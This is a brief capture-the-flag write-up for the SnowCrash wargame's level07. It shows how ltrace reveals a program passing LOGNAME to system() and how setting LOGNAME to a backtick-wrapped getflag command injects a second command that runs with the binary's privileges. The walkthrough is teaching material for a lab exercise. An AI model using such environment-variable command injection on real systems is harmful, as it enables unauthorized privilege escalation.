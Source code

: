 # LEVEL07

ltrace on the executable 

    level07@SnowCrash:~$ ltrace ./level07

Will output a pattern similar to the one encounter on level04.
The program prints the environment variable "LOGNAME" via a call to system("/bin/echo logname")

Just like in level04, ls-la will show that flag07 has specific permissions, all we have to do is switch the LOGNAME env value with our getflag excecutable like so:

    level07@SnowCrash:~$ export LOGNAME='`getflag`'
And then launch the executable.

    ./level07

